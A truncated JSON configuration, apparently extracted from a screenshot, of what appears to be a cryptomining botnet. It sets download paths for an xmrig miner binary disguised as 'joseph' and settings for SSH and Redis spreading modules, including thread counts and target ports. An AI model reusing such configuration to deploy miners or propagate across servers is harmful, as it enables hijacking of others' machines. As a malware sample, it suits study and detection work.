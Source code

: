 ```
{
    "CfgVer": 72,
    "Miners": [
        {
            "Exe": "/usr/bin/joseph",
            "Url": "/static/xmrig0906",
            "Md5": "39dffed3c43ef9b15a6aa2f4d1ab4b4e"
        },
        {
            "Exe": "/tmp/joseph",
            "Url": "/static/xmrig0906",
            "Md5": "39dffed3c43ef9b15a6aa2f4d1ab4b4e"
        }
    ],
    "Cmds": {
        "AALocalSSH": {
            "Id": 3053,
            "Version": 5031,
            "Timeout": "2m",
            "Result": {
                "Map": {}
            },
            "StartAt": 0,
            "NThreads": 0,
            "Duration": "",
            "IPDuration": "",
            "GenLan": false,
            "GenAAA": false,
            "Ports": null,
            "UrlPath": "/static/5031/ddgs"
        },
        "AAredis": {
            "Id": 0,
            "Version": 0,
            "Timeout": "",
            "Result": {
                "Map": {}
            },
            "StartAt": 0,
            "NThreads": 0,
            "Duration": "",
            "IPDuration": "",
            "GenLan": false,
            "GenAAA": false,
            "Ports": null,
            "ShellUrl": ""
        },
        "AAssh": {
            "Id": 2174,
            "Version": 5031,
            "Timeout": "1m",
            "Result": {
                "Map": {}
            },
            "StartAt": 0,
            "NThreads": 100,
            "Duration": "480h",
            "IPDuration": "12h",
            "GenLan": true,
            "GenAAA": false,
            "Ports": [
                22,
                1987,
```